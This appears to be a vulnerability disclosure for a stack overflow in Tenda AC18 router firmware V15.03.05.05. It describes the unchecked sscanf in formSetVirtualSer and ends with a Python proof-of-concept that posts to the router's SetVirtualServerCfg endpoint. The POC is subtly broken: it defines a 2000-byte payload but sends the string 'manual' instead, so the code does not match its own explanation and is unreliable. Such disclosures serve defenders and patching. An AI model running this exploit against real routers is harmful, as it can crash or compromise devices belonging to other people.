 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a stack overflow vulnerability in the `formSetVirtualSer` function. The `v5` variable receives the `list` parameter from a POST request and is assigned to function `sub_75F48` as `a2`. However, since the user can control the input of `list`, the statement `sscanf(v17, "%[^,]%*c%[^,]%*c%[^,]%*c%s", v12, v11, v10, v9) == 4` can cause a buffer overflow. The user-provided  `list` can exceed the capacity of the `v9~v12` array, triggering this security vulnerability.

![image-20240318115253822](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318115253822.png)

![image-20240318120158970](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318120158970.png)

![image-20240318120149133](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318120149133.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetVirtualServerCfg"
payload = b"a"*2000

data = {
        'list':'manual',

    }
response = requests.post(url, data=data)
print(response.text)
```

![image-20240316221759943](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316221759943.png)
